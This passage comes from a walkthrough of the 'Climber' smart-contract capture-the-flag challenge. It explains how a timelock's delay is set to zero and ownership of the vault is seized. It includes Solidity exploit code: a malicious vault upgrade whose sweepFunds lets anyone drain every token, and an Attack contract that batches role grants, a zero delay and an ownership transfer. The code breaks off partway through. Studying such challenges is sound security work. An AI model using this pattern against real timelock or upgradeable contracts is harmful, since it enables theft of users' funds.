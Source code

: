 With a delay of zero, the scheduled actions achieve the ReadyForExecution state instantly, allowing execute fucntion to complete successfully.

3.	Implementation Upgrade and Token Retrieval: After acquiring ownership, we upgrade the vault with a new contract version containing a modified sweepFunds function that allows us to transfer all tokens to the recovery account.


<details>
  <summary> Code </summary>

  ```solidity
contract ClimberVault_Broken is Initializable, OwnableUpgradeable, UUPSUpgradeable {
    uint256 private _lastWithdrawalTimestamp;
    address private _sweeper;

    function initialize(
        address admin,
        address proposer,
        address sweeper
    ) external initializer {
        __Ownable_init(msg.sender);
        __UUPSUpgradeable_init();
    }

    function sweepFunds(address token) external {
        SafeTransferLib.safeTransfer(token, msg.sender, IERC20(token).balanceOf(address(this)));
    }

    function _authorizeUpgrade(address newImplementation) internal override onlyOwner {}
}


contract Attack {
    ClimberTimelock public immutable lock;
    ClimberVault public immutable vault;
    address public immutable player;
    constructor(ClimberTimelock _lock, ClimberVault _vault, address _player){
        lock = _lock;
        vault = _vault;
        player = _player;
    }

    function attack() public {
        address[] memory targets = new address[](4);
        uint256[] memory values = new uint256[](4);
        bytes[] memory dataElements = new bytes[](4);

        targets[1] = address(lock);
        values[1] = 0;
        dataElements[1] = abi.encodeWithSignature("grantRole(bytes32,address)",PROPOSER_ROLE,address(this));

        targets[0] = address(lock);
        values[0] = 0;
        dataElements[0] = abi.encodeWithSignature("updateDelay(uint64)", 0);

        targets[2] = address(vault);
        values[2] = 0;
        dataElements[2] = abi.encodeWithSignature("transferOwnership(address)", player);

        targets[3] = address(this);
        values[3] = 0;
        dataElements[3] = abi.encodeWithSignature("schedule()");

        lock.execute(targets, values, dataElements, "0x0");
  ```